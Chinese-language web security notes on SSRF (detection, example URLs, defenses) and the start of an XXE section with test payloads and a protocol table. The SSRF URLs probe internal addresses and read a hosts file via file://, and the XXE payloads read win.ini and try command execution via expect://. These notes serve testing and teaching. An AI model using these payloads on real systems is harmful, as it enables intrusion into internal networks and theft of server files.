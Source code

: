 ## 检测方法

检测页面中的远程请求功能，如远程下载、远程探测、远程加载等功能，在远程地址参数填写内网地址，查看服务器是否有来自测试对象服务器的请求。如果有，则存在ssrf。

通过访问`http://ssrf.com/remote.jsp?url=http://10.10.10.10:80`的响应信息来判断80端口是否开启

通过访问`http://ssrf.com/ssrf_curl.php?url=file://169.254.115.76/C:\Windows\System32\drivers\etc\hosts`来泄露host文件

## 例子

### http代理

`http://www.ssrf.com/proxy/10.0.1.1:8080/`

### 访问内部资源

`http://www.ssrf.com/content.html?contentUrl=http://192.168.20.36:8080`

### PDF

`http://www.ssrf.com/openPDF?file=http://192.168.20.36:8080`

## 防御方法

- 过滤返回信息，如果web应用是获取PDF文件，需在展示给用户之前先验证返回的信息是不是PDF类型
- 统一错误信息，避免用户可以根据错误信息判断远程服务器的端口状态
- 限制请求的端口为HTTP常用端口，如80，443，8080，8090
- 禁止不需要的协议。仅允许HTTP和HTTPS请求，防止file://，gopher://，ftp://
- 过滤内网ip，限制访问内网资源

# XML外部实体注入（XXE）

## 检测方式-有回显

通常在注册账户，数据更改的位置插入xml测试语句，观察页面响应

```xml
<?xml version="1.0"?><name>vul!!</name>
<?xml version="1.0"?><!DOCTYPE root [<!ENTITY xxe SYSTEM "file:///c:/windows/win.ini">]><name>&xxe;</name>		读取win.ini配置文件
<?xml version="1.0"?><!DOCTYPE root [<!ENTITY xxe SYSTEM "expect://whoami">]><root>&xxe;</root>		很难执行命令
```

### 默认协议

| libxml2 | php            | java    | .net  |
| ------- | -------------- | ------- | ----- |
| file    | file           | http    | file  |
| http    | http           | https   | http  |
| ftp     | ftp            | ftp     | https |
|         | php            | file    | ftp   |
|         | compress.zlib  | jar     |       |
|         | compress.bzip2 | netdoc  |       |
|         | data           | mailto  |       |
|         | glob           | goher * |       |